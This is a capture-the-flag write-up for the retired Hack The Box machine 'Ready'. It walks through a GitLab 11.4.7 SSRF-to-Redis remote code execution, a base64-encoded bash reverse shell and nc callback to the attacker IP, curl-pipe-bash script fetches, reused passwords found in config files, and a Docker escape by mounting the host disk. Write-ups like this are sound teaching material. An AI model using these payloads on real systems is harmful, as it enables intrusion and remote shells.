

# Ready

This is the write-up for the box Ready that got retired at the 15th May 2021.
My IP address was 10.10.14.4 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.220    ready.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ready.nmap 10.10.10.220
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 5080)

The website hosts **GitLab** and registering users is enabled.
After registering a user, there are no other repositories to be found.

On _/help_ it shows the version **GitLab Community Edition 11.4.7**, which is from 2018, so there may be public vulnerabilities for it.

This [article from LiveOverflow](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) explains a **Remote Code Execution** for this version of GitLab.

This vulnerability will exploit a **Server Side Request Forgery (SSRF)** to get access to internal services.
In the case of GitLab, it hosts **Redis** in the background that can be used for **RCE**.

Importing a new repository from an URL:
```
New project --> Import project --> Repo by URL
```

It normally does not allow to connect to localhost, but this will be bypassed by using an IPv6 address.
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/test.git
```



The payload has to have spaces in the beginning and this will execute `whoami` and send it to our IP on port 9001:
```
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| whoami | nc 10.10.14.4 9001 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
```

The listener gets a connection and a response with _"git"_ which is the user that runs the application and this can now be used to start a reverse shell.

Base64-encoding the reverse shell command:
```
echo -n "bash -c 'bash  -i >& /dev/tcp/10.10.14.4/9001  0>&1'" | base64
```

Command to send in the payload:
```
echo -n YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYxJw== | base64 -d | bash
```

Sending the POST request:
```
POST /projects HTTP/1.1
Host: 10.10.10.220:5080
(...)

utf8=%E2%9C%93&authenticity_token=(...)&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2Ftest.git
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| echo -n YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNC85MDAxICAwPiYxJw== | base64 -d | bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
(...)
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as the user _git_.

## Privilege Escalation

The hostname of the box is _gitlab.example.com_ and there is a _.dockerenv_ file in the root filesystem, which means that this is a **Docker container**.

The directory _/opt/backup_ contains three files.

The file _docker-compose.yml_ is the **Docker** file to configure the **GitLab** instance.
In there it sets the root password to the file _root_pass_ in the root directory:
```
YG65407Bjqvv9A0a8Tm_7w
```

Unfortunately this password does not work anywhere else.

The file _gitlab.rb_ contains the configuration for **GitLab** that has many comments.
Filtering out all comments:
```
cat gitlab.rb | grep -v '^\#' | grep .
```
```
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

It has one password and it is possible to switch users to _root_ on the container:
```
su - root
```

### Lateral Movement

It is recommended to run a **Docker Enumeration script** like [DEEPCE](https://github.com/stealthcopter/deepce) or any **Linux Enumeration script** to get an attack surface:
```
curl 10.10.14.4:8000/deepce.sh | bash

curl 10.10.14.4:8000/linpeas.sh | bash
```

The root user has all capabilities to mount the filesystem of the host box:
```
mkdir /mnt/test

mount /dev/sda2 /mnt/test

cd /mnt/test
```

The drive _sda2_ is the filesystem of the host box and there is a private SSH key in the _/root/.ssh_ directory:
```
ssh -i root.key 10.10.10.220
```

After copying the contents of the private key to our local box, it can be used to SSH into the box as root!
